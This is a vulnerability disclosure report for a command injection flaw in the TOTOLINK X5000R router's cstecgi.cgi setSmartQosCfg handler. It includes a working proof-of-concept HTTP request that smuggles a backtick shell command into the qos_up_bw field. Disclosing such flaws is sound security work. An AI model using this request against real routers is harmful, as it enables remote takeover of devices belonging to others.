 ### Overview:

Affected Device: totolink X5000R

Affected Firmware Version: V9.1.0cu.2300_B20230112

Vulnerability: command injection, leading to arbitrary command execution

Firmware Download Link: [https://download.totolink.tw/uploads/firmware/X5000R/TOTOLINK_X5000R_V9.1.0cu.2300_B20230112.zip](https://download.totolink.tw/uploads/firmware/X5000R/TOTOLINK_X5000R_V9.1.0cu.2300_B20230112.zip)

Report Email: [zwx918569613@gmail.com](mailto:zwx918569613@gmail.com)

![](Pasted%20image%2020231128164123.png)

### Vulnerability:

This vulnerability is a Remote Code Execution (RCE) that allows attackers to make arbitrary command execution

The vulnerability is located in the function `sub_412094` within `cstecgi.cgi`, also known as `setSmartQosCfg`.

![](Pasted%20image%2020231130005147.png)


The function uses `Uci_Set_Str`, which passes the parameter `enable` as the fourth argument. In `libcscommon.so`,it can be observed that `Uci_Set_Str` calls `snprintf` to format our `param_4` into the string `uci -c %s set ....` and passes the string to the `CsteSystem` function,which will eventually be called by `execv`.

![](execv.png)

therefore , by controlling parameter among `qos_up_bw,qos_down_bw` , we can finally make an arbitrary command execution

### POC:
To reproduce the vulnerability, you can use the actual device or simulate it using qemu. The following POC can be used:

~~~
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 119
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"addEffect":"3","qos_up_bw":"`id > /1.txt;`","topicurl":"setSmartQosCfg","token":"00000000000000000000000000000000"}
~~~

(tips:if you use qemu emulation ur likely to patch a few places to work normally)
### Impact:

though there is an error msg , the command has indeed been executed

![](Pasted%20image%2020231130005352.png)